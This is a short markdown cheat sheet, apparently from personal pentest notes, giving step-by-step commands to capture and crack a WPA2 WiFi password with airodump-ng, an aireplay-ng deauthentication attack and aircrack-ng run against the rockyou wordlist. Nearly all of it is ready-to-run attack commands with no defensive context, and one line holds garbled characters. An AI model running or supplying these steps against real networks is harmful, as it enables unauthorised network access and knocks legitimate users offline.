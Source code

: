 # Capture and Crack WPA2

**monitor all network**

```bash
airodump-ng wlan0
```

monitor specific network

```bash
airodump-ng wlan0 --channel 10 --bssid D8:29:18:0A:08:91 --write wpa2
```

then use deauth attack by another cart or power down network from device manual

```bash
aireplay-ng --deauth 25 -a D8:29:18:0A:08:91 wlan1
```

after the client re-authenticate we notice `#Data` is increased

exit sniff mode aاشىىثم 6nd use aircrack and wordlist to hack this network

```bash
 aircrack-ng wpa2-01.* -w /home/irix/wordlist/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/2025-06-16 19_29_07-Kali Linux - VMware Workstation.png" alt=""><figcaption></figcaption></figure>

